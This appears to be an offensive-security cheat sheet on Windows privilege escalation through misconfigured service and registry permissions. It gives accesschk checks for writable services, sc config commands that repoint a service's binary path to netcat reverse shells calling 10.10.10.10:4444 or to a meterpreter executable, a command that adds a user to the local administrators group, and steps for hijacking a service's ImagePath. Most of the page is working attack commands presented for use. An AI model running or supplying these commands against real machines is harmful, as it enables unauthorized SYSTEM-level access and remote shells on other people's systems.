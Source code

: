 # Service Exploit

**DOWNLOAD ACCESSCHK.EXE**

[https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe](https://web.archive.org/web/20080530012252/http:/live.sysinternals.com/accesschk.exe)

## Check if User can modify a service

```powershell
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
```

If the group `Authenticated users` has `SERVICE_ALL_ACCESS` in a service, then it can modify the binary that is being executed by the service. 

To modify it and execute netcat you can do:

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

## Insecure Service Permissions

```powershell
# Check the permissions on a service
accesschk.exe /accepteula -uwcqv user <SERVICE NAME>
accesschk.exe /accepteula -uwcqv user daclsvc

# Check what the service does
sc qc daclsvc

# Check the status (RUNNING or STOPPED)
sc query daclsvc
```

If you can change config, the easies way to privesc is change BINARY PATH to the location of a reverse shell EXE.

```powershell
# Change the binary path
sc config daclsvc binpath= "\"C:\users\bob\reverse.exe\""
(NOTE THE SPACE after the "=" sign)

Start a netcat listener.

# Start the service or reboot the system
net start daclsvc
shutdown /r
```

## Weak Registry Permissions

```powershell
In WinPEAS shows as:
[?] Check if you can modify the registry of a service
 HKLM\system\currentcontrollerset\services\regsvc

# Check permission using Powershell
powershell -exec bypass

.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrollerset\services\regsvc
RW NT AUTHORITY\SYSTEM
RW BUILTIN\Administrators
RW NT AUTHORITY\INTERACTIVE

It is executed as ADMINISTRATOR. We can escalate privileges.

# Verify if we can start/stop the service
.\accesschk.exe /accepteula -ucqv user regsvc
SERVICE_START
SERVICE_STOP

# Check the current values in the register
reg query HKLM\system\currentcontrollerset\services\regsvc
Look for ImagePath location and upload a reverse shell to where it is pointing.

# Start the service
net start regsvc
```